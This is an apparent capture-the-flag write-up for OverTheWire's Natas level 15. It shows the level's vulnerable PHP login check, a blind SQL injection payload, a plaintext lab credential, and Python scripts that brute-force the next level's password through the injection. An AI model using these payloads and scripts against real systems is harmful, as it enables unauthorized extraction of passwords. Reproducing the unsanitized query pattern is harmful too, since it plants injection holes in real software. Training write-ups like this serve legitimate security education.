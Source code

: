 ```yaml
---
layout: post
title:  "Natas Level 15"
date:   2015-09-29 12:10
categories: natas wargame web overthewire
author: Nate
---
```


## NATAS 15

![natas15](/images/natas15.png)

NATAS 15 demonstrates how confirming the contents of a username can be combined with a SQL Injection vulnerability to enable what's called a Blind SQL Injection attack.  If we click on the View sourcecode link shown in the screenshot above, we can once again view the server-side PHP script that the challenge author made available to us (see below).

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas15", "pass": "<censored>" };</script></head>
<body>
<h1>natas15</h1>
<div id="content">
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

The first thing we notice is that once again, just like NATAS 14, the user input is retrieved using the built-in $_REQUEST variable array.
The $_REQUEST array in PHP contains the contents of HTTP cookies, HTTP POST, and HTTP GET.  If you're familiar with PHP, you should notice that this input isn't being sanitized before the value is placed in the SQL query to the database.

At first glance, it doesn't appear that there is much you can do even if your SQL injections were successful because the script doesn't echo the query results back to the client.

However, there are two subtle hints that we're meant to pay attention to.  First, we're given the structure of the users table.  The users table has two columns: username, and password - and they both accept a maximum of 64 characters.  Coincidentally, we need a username and password to get to the next challenge.  Second, since the username input isn't sanitized, when we perform a SQL injection, the page will at least confirm whether our SQL query returns a row in the database.

This leads us to conclude that a blind sql injection attack must be possible.  Our attempt at asking the database whether a password value exists (injected after the username) would be made easier if we already had a valid username.  Since we're trying to get to NATAS 16, I naturally tried natas16 as a username.

![username_natas16](/images/username_natas16.png)

Conveniently for us, natas16 is a valid username.

![username_exists](/images/username_exists.png)

Great.  Now all we need to do is guess a 64 alphanumeric password!  Actually, it's not that hard.  MySQL provides a few convenient string comparison features that will make this effort a lot less taxing.

First, instead of asking mysql if the password = 'string_value', which will return true if there is an exact match in the database, the LIKE keyword will perform a string comparison on a per-character basis.  You can check out the documentation here: https://dev.mysql.com/doc/refman/5.0/en/string-comparison-functions.html

Second, since we don't know the collation of the password field, and we want to ensure our string comparisons are case-sensitive, we can use the BINARY keyword to force a case-sensitive comparison.  More information on this keyword is available in the documentation here:
https://dev.mysql.com/doc/refman/5.0/en/charset-binary-op.html

Finally, MySQL allows the use of wildcards in your string comparisons.  This will allow us to essentially ask the database if username natas16 has a password that contains a given character anywhere in the string.

So the way to solve this challenge is to use the confirmation of the user existing to inject an additional query to ask whether the username AND password together is found in the database.  Our blind sql injection will be combined with a brute force attack to ask about every alphanumeric character until we find a match.  However, to make things easier, we'll first establish the list of characters that exist in the password before we try to brute force guess the exact order that those characters are found.

The SQL Query will look something like this:
```mysql
SELECT * from users where username="natas16" and password LIKE BINARY "%W%"
```

You can achieve this effort by typing these characters by hand into the GET parameters of the URL in your browser,
```mysql
http://natas15.natas.labs.overthewire.org/index.php?username=natas16%22+and+password+LIKE+BINARY+%22%W%&debug
```

but that's going to take a long time, and we all value our problem.  Instead, I wrote a python script to do it for me.

```python
#!/bin/python
import requests,string

url = "http://natas15.natas.labs.overthewire.org"
auth_username = "natas15"
auth_password = "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"

# characters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
characters = ''.join([string.ascii_letters,string.digits])

# Begin by building a dictionary of characters found in the password
# This will greatly decrease the complexity for our brute force attempts
password_dictionary = []
exists_str = "This user exists."
for char in characters:
    uri = ''.join([url,'?','username=natas16"','+and+password+LIKE+BINARY+"%',char,'%','&debug'])
    r = requests.get(uri, auth=(auth_username,auth_password))
    if exists_str in r.text:
        password_dictionary.append(char)
        print("Password Dictionary: {0}").format(''.join(password_dictionary))
print("Dictionary build complete.")
print("Dictionary: {0}").format(''.join(password_dictionary))
```

This script will establish a list of all the alphanumeric characters found in the password for natas16.  We confirm each character exists by parsing the result of the GET request for "This user exists." .  Once this list is built, we'll have a much smaller range of characters to brute force guess the password.

Now, we'll take that list and start guessing the password:

```python
# Given the dictionary of characters we just built, we'll try each character in that list
print("Now attempting to brute force...")
password_list = []
password = ''
for i in range(1,64):
    for char in password_dictionary:
        test = ''.join([password,char])
        # Build the GET Request
        uri = ''.join([url,'?','username=natas16"','+and+password+LIKE+BINARY+"',test,'%','&debug'])
        # Send the HTTP GET request to the server
        r = requests.get(uri, auth=(auth_username,auth_password))
        # Parse the HTTP response
        if exists_str in r.text:
            password_list.append(char)
            password = ''.join(password_list)
            print("Length: {0}, Password: {1}").format(len(password),password)
```
![brute_force](/images/brute_force.png)

And that's it.  The password is the 32 character string at the bottom of the image.  To get to the next stage, navigate to http://natas16.natas.labs.overthewire.org/ and enter the username and password at the prompt.
